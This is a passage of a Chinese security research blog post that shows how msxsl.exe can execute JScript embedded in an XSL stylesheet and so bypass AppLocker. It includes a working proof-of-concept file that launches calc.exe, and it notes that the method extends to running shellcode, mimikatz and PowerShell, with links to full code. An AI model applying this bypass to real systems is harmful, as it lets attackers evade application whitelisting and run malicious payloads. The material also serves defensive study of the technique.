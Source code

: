 

script.xml:

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
      return nodelist.nextNode().xml;
	  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

成功执行JScript代码，弹出计算器，poc执行如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/2-2.png)

开启Applocker，添加规则拦截js脚本的执行，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/2-3.png)

但是使用msxsl仍然能够执行JScript代码

在之前的文章《利用JS加载.Net程序》介绍过利用JScript脚本加载.Net程序的方法，结合本文，可以得出推论：

**使用msxsl也能够执行c#代码**

具体来说，能够实现以下功能：

- 执行shellcode
- 执行mimikatz
- 执行powershell脚本

### 2、执行shellcode

可参照Cn33liz的StarFighters，地址如下：

https://github.com/Cn33liz/StarFighters/blob/master/StarFighter.js

结合Casey的POC，就能够实现利用msxsl执行shellcode

完整代码我已经上传至github，地址如下：

https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker/blob/master/shellcode.xml

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/3-1.png)
